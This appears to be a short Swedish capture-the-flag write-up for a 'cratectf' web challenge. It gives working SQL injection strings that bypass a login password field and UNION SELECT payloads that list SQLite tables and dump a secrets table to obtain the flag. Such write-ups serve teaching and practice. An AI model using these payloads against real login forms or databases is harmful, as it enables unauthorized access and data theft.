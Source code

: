 # Logga in
Password-fältet på loginsidan kan utsättas för SQL-injections! 

Flera olika sätt att logga in (admin har id 9)
* mha id
  ' or id=1;--       
* mha användarnamn
  ' or username like 'admin';--

# Hitta hemligheten
Är man inne som admin presenteras en länk till "manageusers.php", annars kan man hitta bortkommenterad länk i menyn.
Man måste vara inloggad som admin för att komma åt manageusers.php! Antingen testar man 1.....9 eller så kör man enligt alternativ #2 ovan.

SQL-injections kan användas för sökning av användare. (OBS här är det " istället för ' :-)
* Hitta vilka tabeller som finns:
  " union select 1,1,1,sql from sqlite_master;--
* Secrets tabellen ser ju intressant ut, kolumn secret:
  " union select 1,1,1,secret from secrets;--
* Läs alla rader, eller sök på cratectf - WIN!
